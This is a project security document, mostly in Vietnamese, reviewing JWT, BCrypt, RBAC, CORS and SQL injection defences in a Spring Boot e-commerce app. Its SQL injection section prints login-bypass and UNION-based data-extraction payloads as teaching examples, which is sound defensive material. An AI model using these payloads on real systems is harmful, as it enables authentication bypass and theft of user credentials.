



# Phân Tích Các Biện Pháp Bảo Mật (Security Measures Analysis)

## Tổng Quan

Tài liệu này phân tích chi tiết các biện pháp bảo mật được triển khai trong hệ thống thương mại điện tử, bao gồm xác thực, phân quyền, mã hóa, và các cơ chế bảo vệ khỏi các lỗ hổng bảo mật phổ biến.

## 1. JWT Authentication Flow

### 1.1. Tổng Quan JWT

Hệ thống sử dụng **JSON Web Token (JWT)** để xác thực người dùng. JWT là một chuẩn mở (RFC 7519) cho phép truyền thông tin an toàn giữa các bên dưới dạng JSON object.

### 1.2. Cấu Trúc JWT Token

```
Header.Payload.Signature
```

**Header**: Chứa thông tin về thuật toán mã hóa
```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

**Payload**: Chứa claims (thông tin người dùng)
```json
{
  "sub": "user@example.com",
  "role": "CUSTOMER",
  "position": "WAREHOUSE",
  "iat": 1234567890,
  "exp": 1234654290
}
```

**Signature**: Chữ ký số để xác thực tính toàn vẹn
```
HMACSHA256(
  base64UrlEncode(header) + "." + base64UrlEncode(payload),
  secret
)
```

### 1.3. Luồng Xác Thực JWT




### 1.4. Cấu Hình JWT

**File**: `src/main/resources/application.properties`

```properties
# JWT Secret Key (ít nhất 32 bytes)
app.jwt.secret=ThisIsASecretKeyForJWTGeneration_ChangeMe123456789

# Token expiration time (milliseconds)
# 86400000 ms = 24 hours
app.jwt.expiration-ms=86400000
```

**Lưu ý bảo mật**:
- Secret key phải được lưu trữ an toàn (environment variables, vault)
- Không commit secret key vào source control
- Sử dụng secret key đủ mạnh (ít nhất 256 bits)
- Thay đổi secret key định kỳ

### 1.5. JWT Service Implementation

**File**: `src/main/java/com/doan/WEB_TMDT/security/JwtService.java`

**Các chức năng chính**:

1. **generateToken()**: Tạo JWT token với claims
   - Subject: Email người dùng
   - Claims: Role, Position, và các thông tin khác
   - Issued At: Thời điểm tạo token
   - Expiration: Thời điểm hết hạn

2. **extractEmail()**: Trích xuất email từ token

3. **extractAllClaims()**: Lấy tất cả claims từ token

4. **isTokenValid()**: Xác thực token
   - Kiểm tra email khớp với UserDetails
   - Kiểm tra token chưa hết hạn
   - Xác minh chữ ký số

**Thuật toán mã hóa**: HMAC-SHA256 (HS256)
- Symmetric key algorithm
- Fast và efficient
- Phù hợp cho single-server hoặc shared secret scenarios


### 1.6. JWT Authentication Filter

**File**: `src/main/java/com/doan/WEB_TMDT/security/JwtAuthenticationFilter.java`

Filter này chạy trước mỗi request để xác thực JWT token:

**Luồng xử lý**:

1. **Bypass public endpoints**: Không yêu cầu JWT cho:
   - `/api/auth/**` (Login, Register)
   - `/api/payment/sepay/webhook` (SePay webhook)
   - `/api/webhooks/**` (GHN webhook)
   - `/api/categories` (GET - Public)
   - `/api/products` (GET - Public)

2. **Extract token**: Lấy token từ header `Authorization: Bearer {token}`

3. **Validate token**: 
   - Parse và extract email
   - Load UserDetails từ database
   - Verify token signature và expiration

4. **Set Authentication**: 
   - Extract authorities từ JWT claims
   - Tạo `UsernamePasswordAuthenticationToken`
   - Set vào `SecurityContextHolder`

5. **Continue filter chain**: Cho phép request tiếp tục

**Xử lý authorities**:
```java
// Extract role
Object role = claims.get("role");
authorities.add(new SimpleGrantedAuthority(role.toString()));
authorities.add(new SimpleGrantedAuthority("ROLE_" + role.toString()));

// Extract position (for employees)
Object position = claims.get("position");
if (position != null) {
    authorities.add(new SimpleGrantedAuthority(position.toString()));
}
```

### 1.7. Token Storage (Frontend)

**File**: `src/frontend/store/authStore.ts`

Token được lưu trữ trong:
- **localStorage**: Persistent storage
- **Zustand store**: In-memory state management

```typescript
setAuth: (user: User, token: string) => {
  // Store in localStorage
  localStorage.setItem('auth_token', token)
  localStorage.setItem('token', token)
  
  // Store in Zustand state
  set({ user, token, isAuthenticated: true })
}
```

**Bảo mật localStorage**:
- ✅ Persistent across browser sessions
- ⚠️ Vulnerable to XSS attacks
- ✅ Mitigated by XSS protection measures (see section 5)

**Alternative**: httpOnly cookies (more secure but requires CORS configuration)

### 1.8. Token Refresh Strategy

**Hiện tại**: Token có thời hạn 24 giờ, không có refresh token

**Khuyến nghị cải tiến**:
1. Implement refresh token mechanism
2. Short-lived access token (15 minutes)
3. Long-lived refresh token (7 days)
4. Automatic token refresh before expiration

## 2. Password Hashing (BCrypt)

### 2.1. Tổng Quan BCrypt

BCrypt là một hàm băm mật khẩu được thiết kế đặc biệt để chống lại brute-force attacks thông qua:
- **Adaptive hashing**: Có thể tăng độ phức tạp theo thời gian
- **Salt**: Tự động thêm salt ngẫu nhiên cho mỗi mật khẩu
- **Slow by design**: Cố ý chậm để làm khó brute-force

### 2.2. Cấu Hình BCrypt

**File**: `src/main/java/com/doan/WEB_TMDT/config/SecurityConfig.java`

```java
@Bean
public PasswordEncoder passwordEncoder() {
    return new BCryptPasswordEncoder();
}
```

**Mặc định**: BCrypt strength = 10 (2^10 = 1024 rounds)

### 2.3. Password Hashing Flow


```mermaid
sequenceDiagram
    actor User
    participant Frontend
    participant AuthService
    participant PasswordEncoder
    participant Database
    
    Note over User,Database: Registration Flow
    
    User->>Frontend: Enter password
    Frontend->>AuthService: POST /api/auth/register/send-otp<br/>{email, password, ...}
    activate AuthService
    
    AuthService->>PasswordEncoder: encode(plainPassword)
    activate PasswordEncoder
    
    PasswordEncoder->>PasswordEncoder: Generate random salt<br/>(16 bytes)
    PasswordEncoder->>PasswordEncoder: Hash password with salt<br/>BCrypt(password, salt, rounds=10)
    
    Note over PasswordEncoder: Result format:<br/>$2a$10$[salt][hash]<br/>- $2a: BCrypt version<br/>- $10: Cost factor<br/>- [salt]: 22 chars<br/>- [hash]: 31 chars
    
    PasswordEncoder-->>AuthService: hashedPassword
    deactivate PasswordEncoder
    
    AuthService->>Database: INSERT user<br/>SET password = hashedPassword
    Database-->>AuthService: Success
    
    AuthService-->>Frontend: 200 OK
    deactivate AuthService
    Frontend-->>User: "Đăng ký thành công"
    
    Note over User,Database: Login Flow
    
    User->>Frontend: Enter password
    Frontend->>AuthService: POST /api/auth/login<br/>{email, password}
    activate AuthService
    
    AuthService->>Database: SELECT user WHERE email = ?
    Database-->>AuthService: User with hashedPassword
    
    AuthService->>PasswordEncoder: matches(plainPassword, hashedPassword)
    activate PasswordEncoder
    
    PasswordEncoder->>PasswordEncoder: Extract salt from hashedPassword
    PasswordEncoder->>PasswordEncoder: Hash plainPassword with same salt
    PasswordEncoder->>PasswordEncoder: Compare hashes<br/>(constant-time comparison)
    
    alt Passwords Match
        PasswordEncoder-->>AuthService: true
        deactivate PasswordEncoder
        AuthService->>AuthService: Generate JWT token
        AuthService-->>Frontend: 200 OK {token, user}
        Frontend-->>User: Login successful
    else Passwords Don't Match
        PasswordEncoder-->>AuthService: false
        deactivate PasswordEncoder
        AuthService-->>Frontend: 401 Unauthorized
        Frontend-->>User: "Sai email hoặc mật khẩu"
    end
    
    deactivate AuthService
```

### 2.4. BCrypt Implementation

**File**: `src/main/java/com/doan/WEB_TMDT/module/auth/service/impl/AuthServiceImpl.java`

**Encoding password during registration**:
```java
@Override
public ApiResponse sendOtp(RegisterRequest request) {
    // Hash password before storing
    String encodedPassword = passwordEncoder.encode(request.getPassword());
    
    // Store in OTP verification record
    OtpVerification otpVerification = OtpVerification.builder()
            .email(request.getEmail())
            .encodedPassword(encodedPassword)  // Already hashed
            .otpCode(otp)
            .build();
    
    otpRepository.save(otpVerification);
}
```

**Verifying password during login**:
```java
// In UserDetailsServiceImpl
UserDetails userDetails = userDetailsService.loadUserByUsername(email);

// Spring Security automatically uses passwordEncoder.matches()
// to compare plain password with hashed password
```

### 2.5. BCrypt Security Properties

**Ưu điểm**:
1. **Salt tự động**: Mỗi mật khẩu có salt riêng, ngăn rainbow table attacks
2. **Adaptive**: Có thể tăng cost factor khi hardware mạnh hơn
3. **Slow hashing**: Mỗi hash mất ~100ms, làm chậm brute-force
4. **Constant-time comparison**: Ngăn timing attacks

**Format BCrypt hash**:
```
$2a$10$N9qo8uLOickgx2ZMRZoMyeIjZAgcfl7p92ldGxad68LJZdL17lhWy
\__/\/ \____________________/\_____________________________/
 |  |           |                          |
 |  |           |                          +-- Hash (31 chars)
 |  |           +-- Salt (22 chars)
 |  +-- Cost factor (10 = 2^10 rounds)
 +-- Algorithm version (2a = BCrypt)
```

**Cost factor recommendations**:
- **10**: Default, good balance (2024)
- **12**: Higher security, slower (~400ms)
- **14**: Very high security, very slow (~1.6s)

### 2.6. Password Policy

**Hiện tại**: Không có validation mạnh ở backend

**Khuyến nghị**:
```java
@Pattern(regexp = "^(?=.*[a-z])(?=.*[A-Z])(?=.*\\d)(?=.*[@$!%*?&])[A-Za-z\\d@$!%*?&]{8,}$",
         message = "Password must contain at least 8 characters, one uppercase, one lowercase, one number and one special character")
private String password;
```

**Yêu cầu mật khẩu mạnh**:
- Tối thiểu 8 ký tự
- Ít nhất 1 chữ hoa
- Ít nhất 1 chữ thường
- Ít nhất 1 số
- Ít nhất 1 ký tự đặc biệt


## 3. Role-Based Access Control (RBAC)

### 3.1. Tổng Quan RBAC

Hệ thống sử dụng **2-tier authorization**:
1. **Role**: Phân loại người dùng (CUSTOMER, EMPLOYEE, ADMIN)
2. **Position**: Chức vụ cụ thể cho nhân viên (WAREHOUSE, SALES, ACCOUNTANT, etc.)

### 3.2. Role Hierarchy



### 3.3. Role & Position Definitions

**File**: `src/main/java/com/doan/WEB_TMDT/module/auth/entity/Role.java`

```java
public enum Role {
    CUSTOMER,   // Khách hàng
    EMPLOYEE,   // Nhân viên
    ADMIN       // Quản trị viên
}
```

**File**: `src/main/java/com/doan/WEB_TMDT/module/auth/entity/Position.java`

```java
public enum Position {
    SALE,              // Nhân viên bán hàng
    CSKH,              // Chăm sóc khách hàng
    PRODUCT_MANAGER,   // Quản lý sản phẩm
    WAREHOUSE,         // Nhân viên kho
    ACCOUNTANT,        // Kế toán
    SHIPPER            // Nhân viên giao hàng
}
```

### 3.4. Authority Assignment

**File**: `src/main/java/com/doan/WEB_TMDT/security/UserDetailsServiceImpl.java`

```java
@Override
public UserDetails loadUserByUsername(String email) {
    User u = userRepository.findByEmail(email)
            .orElseThrow(() -> new UsernameNotFoundException("User not found"));

    List<SimpleGrantedAuthority> authorities = new ArrayList<>();

    // Level 1: Role authorities
    authorities.add(new SimpleGrantedAuthority("ROLE_" + u.getRole().name()));
    authorities.add(new SimpleGrantedAuthority(u.getRole().name()));

    // Level 2: Position authorities (for employees)
    if (u.getEmployee() != null && u.getEmployee().getPosition() != null) {
        authorities.add(new SimpleGrantedAuthority(u.getEmployee().getPosition().name()));
    }

    return new org.springframework.security.core.userdetails.User(
            u.getEmail(),
            u.getPassword(),
            authorities
    );
}
```

**Ví dụ authorities cho một WAREHOUSE employee**:
```
[
  "ROLE_EMPLOYEE",
  "EMPLOYEE",
  "WAREHOUSE"
]
```

### 3.5. Endpoint Protection Matrix

**File**: `src/main/java/com/doan/WEB_TMDT/config/SecurityConfig.java`

| Endpoint Pattern | Allowed Roles/Positions | Description |
|-----------------|------------------------|-------------|
| `/api/auth/**` | Public | Authentication endpoints |
| `/api/categories` (GET) | Public | Browse categories |
| `/api/products` (GET) | Public | Browse products |
| `/api/cart/**` | CUSTOMER, ADMIN | Shopping cart |
| `/api/orders/**` | CUSTOMER, ADMIN, EMPLOYEE, SALE, SALES, SHIPPER | Order management |
| `/api/inventory/**` | WAREHOUSE, ADMIN | Inventory management |
| `/api/inventory/stock` | WAREHOUSE, PRODUCT_MANAGER, ADMIN | View stock (read-only for PM) |
| `/api/products/warehouse/**` | PRODUCT_MANAGER, ADMIN | Product management |
| `/api/admin/orders/**` | ADMIN, SALE, SALES, EMPLOYEE, SHIPPER | Admin order operations |
| `/api/accounting/**` | ADMIN, ACCOUNTANT | Accounting operations |
| `/api/admin/**` | ADMIN | Admin-only operations |
| `/api/payment/sepay/webhook` | Public | Payment webhook |
| `/api/webhooks/**` | Public | External webhooks |

### 3.6. Authorization Configuration

```java
@Bean
public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
    http
        .authorizeHttpRequests(auth -> auth
            // Public endpoints
            .requestMatchers("/api/auth/**").permitAll()
            .requestMatchers("/api/categories", "/api/products").permitAll()
            
            // Customer endpoints
            .requestMatchers("/api/cart/**")
                .hasAnyAuthority("CUSTOMER", "ADMIN")
            
            // Warehouse endpoints
            .requestMatchers("/api/inventory/**")
                .hasAnyAuthority("WAREHOUSE", "ADMIN")
            
            // Product Manager endpoints
            .requestMatchers("/api/products/warehouse/**")
                .hasAnyAuthority("PRODUCT_MANAGER", "ADMIN")
            
            // Accounting endpoints
            .requestMatchers("/api/accounting/**")
                .hasAnyAuthority("ADMIN", "ACCOUNTANT")
            
            // Admin only
            .requestMatchers("/api/admin/**")
                .hasAuthority("ADMIN")
            
            // All other requests require authentication
            .anyRequest().authenticated()
        );
    
    return http.build();
}
```

### 3.7. Method-Level Security

**Annotation**: `@EnableMethodSecurity` in SecurityConfig

**Usage example**:
```java
@PreAuthorize("hasAuthority('ADMIN')")
public void deleteUser(Long userId) {
    // Only ADMIN can execute this
}

@PreAuthorize("hasAnyAuthority('WAREHOUSE', 'ADMIN')")
public void createExportOrder(ExportOrderRequest request) {
    // WAREHOUSE or ADMIN can execute
}
```

### 3.8. Frontend Route Protection

**File**: `src/frontend/components/ProtectedRoute.tsx`

```typescript
export default function ProtectedRoute({
  children,
  allowedRoles = [],
  allowedPositions = [],
  requireAuth = true,
}: ProtectedRouteProps) {
  const { user, isAuthenticated } = useAuthStore()
  
  // Check authentication
  if (requireAuth && !isAuthenticated) {
    router.push('/login')
    return
  }
  
  // Check authorization
  if (allowedRoles.length > 0 || allowedPositions.length > 0) {
    const hasRole = allowedRoles.includes(user?.role || '')
    const hasPosition = allowedPositions.includes(user?.position || '')
    
    if (!hasRole && !hasPosition) {
      toast.error('Bạn không có quyền truy cập')
      router.push('/')
      return
    }
  }
  
  return <>{children}</>
}
```

**Usage**:
```typescript
<ProtectedRoute allowedRoles={['ADMIN']} allowedPositions={['WAREHOUSE']}>
  <WarehousePage />
</ProtectedRoute>
```

### 3.9. RBAC Security Best Practices

✅ **Implemented**:
- Principle of least privilege
- Role-based endpoint protection
- Method-level security annotations
- Frontend route guards
- JWT claims include role/position

⚠️ **Recommendations**:
- Implement permission-based access (more granular than roles)
- Add audit logging for sensitive operations
- Implement role hierarchy (ADMIN inherits all permissions)
- Add dynamic permission management UI


## 4. API Endpoint Protection

### 4.1. Stateless Session Management

```java
.sessionManagement(s -> s.sessionCreationPolicy(SessionCreationPolicy.STATELESS))
```

**Lý do**: 
- Không sử dụng HTTP sessions
- Mỗi request độc lập, xác thực qua JWT
- Scalable cho distributed systems
- Không cần session storage

### 4.2. Authentication Flow for Protected Endpoints



### 4.3. CORS Configuration

**File**: `src/main/java/com/doan/WEB_TMDT/config/SecurityConfig.java`

```java
@Bean
public CorsConfigurationSource corsConfigurationSource() {
    CorsConfiguration configuration = new CorsConfiguration();
    
    // Allow all origins (development)
    configuration.setAllowedOriginPatterns(Arrays.asList("*"));
    
    // Allowed HTTP methods
    configuration.setAllowedMethods(Arrays.asList(
        "GET", "POST", "PUT", "DELETE", "OPTIONS"
    ));
    
    // Allow all headers
    configuration.setAllowedHeaders(Arrays.asList("*"));
    
    // Allow credentials (cookies, authorization headers)
    configuration.setAllowCredentials(true);
    
    // Webhook-specific configuration
    CorsConfiguration webhookConfig = new CorsConfiguration();
    webhookConfig.setAllowedOriginPatterns(Arrays.asList("*"));
    webhookConfig.setAllowedMethods(Arrays.asList("POST", "GET", "OPTIONS"));
    webhookConfig.setAllowedHeaders(Arrays.asList("*"));
    webhookConfig.setAllowCredentials(false); // No credentials for webhooks
    
    UrlBasedCorsConfigurationSource source = new UrlBasedCorsConfigurationSource();
    source.registerCorsConfiguration("/api/payment/sepay/webhook", webhookConfig);
    source.registerCorsConfiguration("/api/webhooks/**", webhookConfig);
    source.registerCorsConfiguration("/**", configuration);
    
    return source;
}
```

**Security considerations**:
- ⚠️ `allowedOriginPatterns("*")` is permissive (development)
- ✅ Production should restrict to specific domains
- ✅ Separate CORS config for webhooks (no credentials)

**Production recommendation**:
```java
configuration.setAllowedOrigins(Arrays.asList(
    "https://yourdomain.com",
    "https://www.yourdomain.com"
));
```

### 4.4. CSRF Protection

```java
.csrf(AbstractHttpConfigurer::disable)
```

**Lý do disable**:
- Stateless JWT authentication (không dùng cookies)
- CSRF chỉ cần thiết khi dùng session-based auth
- API được consume bởi SPA (Single Page Application)

**Khi nào cần CSRF**:
- Session-based authentication
- Cookie-based authentication
- Traditional server-side rendered forms

**Alternative protection**:
- JWT trong Authorization header (không tự động gửi như cookies)
- SameSite cookie attribute (nếu dùng cookies)
- Double-submit cookie pattern

### 4.5. Request Validation

**Input validation** được thực hiện ở nhiều tầng:

1. **Controller level**: `@Valid` annotation
```java
@PostMapping("/orders")
public ResponseEntity<?> createOrder(@Valid @RequestBody OrderRequest request) {
    // Spring automatically validates
}
```

2. **DTO validation**: Bean Validation annotations
```java
public class OrderRequest {
    @NotNull(message = "Customer ID is required")
    private Long customerId;
    
    @NotEmpty(message = "Order items cannot be empty")
    private List<OrderItemRequest> items;
    
    @Pattern(regexp = "^[A-Z0-9]{10}$", message = "Invalid order code format")
    private String orderCode;
}
```

3. **Service level**: Business logic validation
```java
public OrderResponse createOrder(OrderRequest request) {
    // Validate stock availability
    validateStockAvailability(request.getItems());
    
    // Validate shipping address
    validateShippingAddress(request.getAddress());
    
    // Validate payment method
    validatePaymentMethod(request.getPaymentMethod());
}
```

### 4.6. Rate Limiting

**Hiện tại**: Chưa implement

**Khuyến nghị**: Sử dụng Spring Cloud Gateway hoặc Bucket4j

```java
// Example with Bucket4j
@Component
public class RateLimitingFilter extends OncePerRequestFilter {
    
    private final Map<String, Bucket> cache = new ConcurrentHashMap<>();
    
    @Override
    protected void doFilterInternal(HttpServletRequest request, 
                                    HttpServletResponse response, 
                                    FilterChain filterChain) {
        String key = getClientIP(request);
        Bucket bucket = resolveBucket(key);
        
        if (bucket.tryConsume(1)) {
            filterChain.doFilter(request, response);
        } else {
            response.setStatus(429); // Too Many Requests
            response.getWriter().write("Rate limit exceeded");
        }
    }
    
    private Bucket resolveBucket(String key) {
        return cache.computeIfAbsent(key, k -> {
            // 100 requests per minute
            Bandwidth limit = Bandwidth.classic(100, Refill.intervally(100, Duration.ofMinutes(1)));
            return Bucket.builder().addLimit(limit).build();
        });
    }
}
```

### 4.7. API Response Security

**Consistent error responses**:
```java
@ControllerAdvice
public class GlobalExceptionHandler {
    
    @ExceptionHandler(AccessDeniedException.class)
    public ResponseEntity<?> handleAccessDenied(AccessDeniedException ex) {
        return ResponseEntity.status(403).body(
            ApiResponse.error("Bạn không có quyền truy cập")
        );
    }
    
    @ExceptionHandler(Exception.class)
    public ResponseEntity<?> handleGenericException(Exception ex) {
        // Don't expose internal error details
        log.error("Internal error", ex);
        return ResponseEntity.status(500).body(
            ApiResponse.error("Lỗi hệ thống")
        );
    }
}
```

**Security best practices**:
- ✅ Don't expose stack traces to clients
- ✅ Use generic error messages for security errors
- ✅ Log detailed errors server-side
- ✅ Consistent response format


## 5. SQL Injection Prevention

### 5.1. Tổng Quan SQL Injection

SQL Injection là lỗ hổng bảo mật cho phép attacker chèn SQL code độc hại vào queries, có thể:
- Đọc dữ liệu nhạy cảm
- Sửa đổi hoặc xóa dữ liệu
- Bypass authentication
- Execute administrative operations

### 5.2. Prevention Strategy

Hệ thống sử dụng **Spring Data JPA** với **Hibernate ORM**, cung cấp bảo vệ tự động khỏi SQL injection.

### 5.3. JPA Repository Pattern

**File**: `src/main/java/com/doan/WEB_TMDT/module/auth/repository/UserRepository.java`

```java
public interface UserRepository extends JpaRepository<User, Long> {
    
    // ✅ SAFE: JPA automatically uses parameterized queries
    Optional<User> findByEmail(String email);
    
    // ✅ SAFE: Method name query with parameters
    List<User> findByRoleAndStatus(Role role, Status status);
    
    // ✅ SAFE: @Query with named parameters
    @Query("SELECT u FROM User u WHERE u.email = :email AND u.status = :status")
    Optional<User> findByEmailAndStatus(@Param("email") String email, 
                                        @Param("status") Status status);
    
    // ✅ SAFE: JPQL with positional parameters
    @Query("SELECT u FROM User u WHERE u.role = ?1")
    List<User> findByRole(Role role);
}
```

**Tại sao an toàn**:
- JPA/Hibernate tự động sử dụng **PreparedStatement**
- Parameters được bind riêng biệt, không concatenate vào SQL string
- Special characters được escape tự động

### 5.4. Parameterized Queries

**Behind the scenes**:

```java
// Developer writes:
Optional<User> findByEmail(String email);

// Hibernate generates:
PreparedStatement ps = connection.prepareStatement(
    "SELECT * FROM users WHERE email = ?"
);
ps.setString(1, email); // Parameter binding
ResultSet rs = ps.executeQuery();
```

**Comparison**:

❌ **VULNERABLE** (String concatenation):
```java
String sql = "SELECT * FROM users WHERE email = '" + email + "'";
// If email = "admin' OR '1'='1"
// SQL becomes: SELECT * FROM users WHERE email = 'admin' OR '1'='1'
// Returns all users!
```

✅ **SAFE** (Parameterized):
```java
String sql = "SELECT * FROM users WHERE email = ?";
ps.setString(1, "admin' OR '1'='1");
// Parameter is treated as literal string
// SQL searches for email exactly matching "admin' OR '1'='1"
// Returns nothing (no such email exists)
```

### 5.5. Native Query Safety

**Khi cần native SQL**:

```java
// ✅ SAFE: Native query with parameters
@Query(value = "SELECT * FROM users WHERE email = :email", nativeQuery = true)
Optional<User> findByEmailNative(@Param("email") String email);

// ❌ DANGEROUS: String concatenation
@Query(value = "SELECT * FROM users WHERE email = '" + email + "'", nativeQuery = true)
Optional<User> findByEmailUnsafe(String email);
```

**Kiểm tra codebase**:
```bash
# Search for native queries
grep -r "@Query.*nativeQuery.*true" src/
# Result: No matches found ✅
```

Hệ thống **không sử dụng native queries**, tất cả đều dùng JPQL hoặc method name queries.

### 5.6. Dynamic Query Building

**Khi cần build queries động**:

✅ **SAFE** (Using Criteria API):
```java
@Service
public class UserSearchService {
    
    @PersistenceContext
    private EntityManager entityManager;
    
    public List<User> searchUsers(String email, Role role, Status status) {
        CriteriaBuilder cb = entityManager.getCriteriaBuilder();
        CriteriaQuery<User> query = cb.createQuery(User.class);
        Root<User> user = query.from(User.class);
        
        List<Predicate> predicates = new ArrayList<>();
        
        if (email != null) {
            predicates.add(cb.equal(user.get("email"), email));
        }
        if (role != null) {
            predicates.add(cb.equal(user.get("role"), role));
        }
        if (status != null) {
            predicates.add(cb.equal(user.get("status"), status));
        }
        
        query.where(predicates.toArray(new Predicate[0]));
        return entityManager.createQuery(query).getResultList();
    }
}
```

✅ **SAFE** (Using Specification):
```java
public class UserSpecifications {
    
    public static Specification<User> hasEmail(String email) {
        return (root, query, cb) -> 
            email == null ? null : cb.equal(root.get("email"), email);
    }
    
    public static Specification<User> hasRole(Role role) {
        return (root, query, cb) -> 
            role == null ? null : cb.equal(root.get("role"), role);
    }
}

// Usage
List<User> users = userRepository.findAll(
    Specification.where(hasEmail(email))
                 .and(hasRole(role))
);
```

### 5.7. Input Validation

**Additional layer of protection**:

```java
public class OrderRequest {
    
    @NotNull
    @Email(message = "Invalid email format")
    private String email;
    
    @Pattern(regexp = "^[a-zA-Z0-9_-]{3,20}$", 
             message = "Username must be alphanumeric, 3-20 characters")
    private String username;
    
    @Min(1)
    @Max(1000)
    private Integer quantity;
}
```

**Whitelist validation**:
```java
public void updateOrderStatus(Long orderId, String status) {
    // Validate against enum
    OrderStatus orderStatus;
    try {
        orderStatus = OrderStatus.valueOf(status);
    } catch (IllegalArgumentException e) {
        throw new ValidationException("Invalid order status");
    }
    
    // Safe to use
    order.setStatus(orderStatus);
}
```

### 5.8. SQL Injection Attack Examples & Prevention

**Example 1: Login bypass**

❌ Vulnerable code:
```java
String sql = "SELECT * FROM users WHERE email = '" + email + 
             "' AND password = '" + password + "'";
```

Attack:
```
email: admin@example.com
password: ' OR '1'='1
```

Result:
```sql
SELECT * FROM users WHERE email = 'admin@example.com' AND password = '' OR '1'='1'
-- Always true, bypasses authentication
```

✅ Protected (JPA):
```java
Optional<User> findByEmailAndPassword(String email, String password);
// Hibernate uses PreparedStatement, attack fails
```

**Example 2: Data extraction**

❌ Vulnerable:
```java
String sql = "SELECT * FROM products WHERE name LIKE '%" + searchTerm + "%'";
```

Attack:
```
searchTerm: %' UNION SELECT email, password, null FROM users --
```

✅ Protected (JPA):
```java
@Query("SELECT p FROM Product p WHERE p.name LIKE %:searchTerm%")
List<Product> searchByName(@Param("searchTerm") String searchTerm);
```

### 5.9. Database User Permissions

**Principle of least privilege**:

```sql
-- Application database user should NOT have:
DROP TABLE users;        -- ❌ DROP privileges
TRUNCATE TABLE orders;   -- ❌ TRUNCATE privileges
GRANT ALL ON *.*;        -- ❌ GRANT privileges

-- Application user should ONLY have:
SELECT, INSERT, UPDATE, DELETE ON web3.*;  -- ✅ CRUD operations only
```

**Current configuration** (`application.properties`):
```properties
spring.datasource.username=root
spring.datasource.password=
```

⚠️ **Security risk**: Using root user

**Recommendation**:
```sql
-- Create dedicated application user
CREATE USER 'web3_app'@'localhost' IDENTIFIED BY 'strong_password';
